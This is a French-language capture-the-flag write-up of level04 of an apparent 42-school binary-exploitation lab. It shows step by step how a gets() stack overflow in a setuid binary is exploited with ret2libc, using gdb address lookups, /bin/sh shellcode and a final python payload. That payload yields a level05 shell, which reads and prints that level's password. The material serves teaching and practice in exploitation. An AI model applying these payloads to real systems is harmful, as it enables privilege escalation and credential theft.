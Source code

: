 Je commence par analyser mon environnement :

```bash
$ id && pwd && ls -la
uid=1004(level04) gid=1004(level04) groups=1004(level04),100(users)
/home/users/level04
total 17
dr-xr-x---+ 1 level04 level04   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level04 level04  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level04 level04 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
-rw-r--r--+ 1 level04 level04   41 Oct 19  2016 .pass
-rw-r--r--  1 level04 level04  675 Sep 10  2016 .profile
```

Je trouve un binaire `level04`, que je tente d'éxecuter :

```bash
$ ./level04
Give me some shellcode, k
hiii
child is exiting...
```

J'essaye alors de lui donner le `shellcode` pour [/bin/sh](https://shell-storm.org/shellcode/files/shellcode-827.html) : 

```bash
$ ./level04
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
child is exiting...
```

Sans succès, je décompile le binaire avec [Dogbolt](https://dogbolt.org/?id=d27e3b04-b575-4126-af26-7c135c61096e#Hex-Rays=166) :

```c
int main(int argc, const char **argv, const char **envp)
{
  int stat_loc; // [esp+1Ch] [ebp-9Ch] BYREF
  char buffer[128]; // [esp+20h] [ebp-98h] BYREF
  int ptrace_result; // [esp+A8h] [ebp-10h]
  pid_t pid; // [esp+ACh] [ebp-Ch]

  pid = fork();

  memset(buffer, 0, sizeof(buffer));
  ptrace_result = 0;
  stat_loc = 0;

  if ( pid )
  {
    do
    {
      wait(&stat_loc);

      if ( (stat_loc & 0x7F) == 0 || (stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      ptrace_result = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    }
    while ( ptrace_result != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(buffer);
  }
  return 0;
}
```

Je ne comprend pas grand chose à cette fonction, mais j'observe très rapidement la présence du vulnérable `gets()` qui écrit dans un buffer de taille 128, mais qui n'a pas de limite dans la taille d'écriture. Je peux donc, comme dans `Rainfall` et avec la vulnérabilité `Ret2Libc` des exercices précédents, ré-écrire sur l'adresse de `main()` afin de pointer vers `system()`, `exit()` (toujours optionel) et `/bin/sh`.

J'utilise `gdb` pour trouver ces adresses :

```bash
$ gdb ./level04 -q
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.

(gdb) b main
Breakpoint 1 at 0x80486cd

(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()

(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system <---------------------- ici
0xf7f48a50  svcerr_systemerr

(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit <------------------------ ici
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit

(gdb) info proc mappings
process 2492
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so <--- libc
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so <--- end
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec <------------------------ ici
1 pattern found.
```

Comme au `level01`, je cherche le padding du payload en analysant `gdb` :

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
=> 0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp
```

Ici, je vois un alignement sur 16 bytes, comme précédamment, et que la stack se voit allouer `0xb0` bytes de mémoire, soit 176.

`Dogbolt`, ainsi que `(gdb) disas main` me donnent les deux l'information que le buffer commence à `esp+20` :

```c
  char buffer[128]; // [esp+20h]
```

Cela correspond à `0x20` bytes, soit 32. Je peux donc soustraire cela du total alloué et trouve 144.
Comme pour le `level01`, j'ajoute 8 bytes (4 pour écrire sur `ebp`, puis 4 pour écrire sur la `return address` de main).

Cela me donne un total de 152 bytes de padding. J'essaye le même payload que dans le `level01` : 

```bash
$ (python -c 'print("\x90"*152 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-
1])'; cat) | ./level04
Give me some shellcode, k
child is exiting...
whoami
$
```

Mais c'est sans succès. Je tente d'aligner sur 16 bytes comme précédamment :

```bash
$ (python -c 'print("\x90"*160 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-
1])'; cat) | ./level04
Give me some shellcode, k
whoami

^C
```

Sans succès également. En examinant l'ASM à nouveau, je me rend compte que contrairement au `level01`, il y a un call à `fork()` avant l'allocation du buffer, il est donc probable que l'adresse de retour de `fork()` ait été push dans la stack, et occupe donc 4 bytes supplémentaire.

Je tente avec 152 + 4 bytes :

```bash
$ (python -c 'print("\x90"*156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1
] + "\xf7\xf8\x97\xec"[::-1])'; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
^C
```
